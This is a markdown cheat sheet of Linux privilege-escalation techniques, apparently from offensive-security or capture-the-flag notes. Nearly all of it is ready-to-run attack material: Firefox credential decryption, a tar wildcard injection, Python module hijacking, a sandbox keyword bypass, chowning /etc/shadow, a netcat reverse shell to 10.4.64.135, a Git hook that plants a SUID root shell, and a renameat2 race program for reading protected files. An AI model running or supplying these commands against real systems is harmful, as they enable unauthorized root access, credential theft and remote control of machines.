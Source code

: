 # Exploitation techniques

## Summary
- [Extract Firefox config file](#extract-firefox-config-file)
- [Tar wildcard privilege escalation](#tar-wildcard-privilege-escalation)
- [Privilege escalation with Python](#privilege-escalation-with-python) 
  - [Python module hijacking](#python-module-hijacking)
  - [Bypass restricted keyword](#bypass-restricted-keyword)
  - [Change file owner](#change-file-owner)
  - [Injecting payload into input function](#injecting-payload-into-input-function)
- [Abusing Git hooks](#abusing-git-hooks)
- [Read unauthorized files with race condition](#read-unauthorized-files-with-race-condition)

## Extract Firefox config file
```
compress firefox config file and download to local machine
python3 firefox-decrypt.py [file name]
get possible credential stored inside
```

## Tar wildcard privilege escalation
```
cat > shell.sh << EOF
#!/bin/bash
/bin/bash
EOF
chmod +x shell.sh
echo "" > "--checkpoint-action=exec.sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```

## Privilege escalation with Python
### Python module hijacking
```
	EXAMPLE: #!/usr/bin/env python3
		 from compare import *
		 print(compare.Str('hello', 'hello', 'hello'))
echo """
			import os
			os.system("/bin/bash")
		   """ > /tmp/compare.py
export PYTHONPATH="/tmp"
```

### Bypass restricted keyword
- `__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('/bin/bash')`

### Change file owner
- `python3 -c 'import os;os.chown("/etc/shadow",1000,1000)'`

### Injecting payload into input function
***Input the following command into python input()***
- `__import__('os').system('nc -e /bin/bash 10.4.64.135 4444')`

### Abusing Git hooks
```
any Git repo has a .git directory and one of the folders is hooks
by default it has a bunch of .sample files however hooks will skip .sample files but not the others
we can exploit this by writing a bash script with a regular name without .sample extension inside hooks directory
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > pre-commit
chmod +x pre-commit
the exploit copy /bin/bash into /tmp/0xdf, change owner to root and sets it to SUID
when someone tries to commit, pre-commit file will run
```

### Read unauthorized files with race condition
```
assume there is a file that disallow unauthorized user to read it
unauthorized user can read the file with race condition exploitation
first upload this .c file into the target machine
	#define _GNU_SOURCE
			#include <stdio.h>
			#include <fcntl.h>
			#include <stdio.h>
			#include <unistd.h>
			#include <sys/syscall.h>
			#include <linux/fs.h>

			int main(int argc, char *argv[]) {
			  while (1) {
			    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
			  }
			  return 0;
			}
the code above constantly exchange names between 2 files
since the script will run constantly, we can read the file because the file cant keep up with the constant name changes and therefore raise the race condition vulnerability
compile the .c script and run it with 2 files as the arguments
gcc rename.c -o rename
./rename secret_file_to_read random_file
now while the rename script keeps running, we can try to read the secret_file_to_read
```
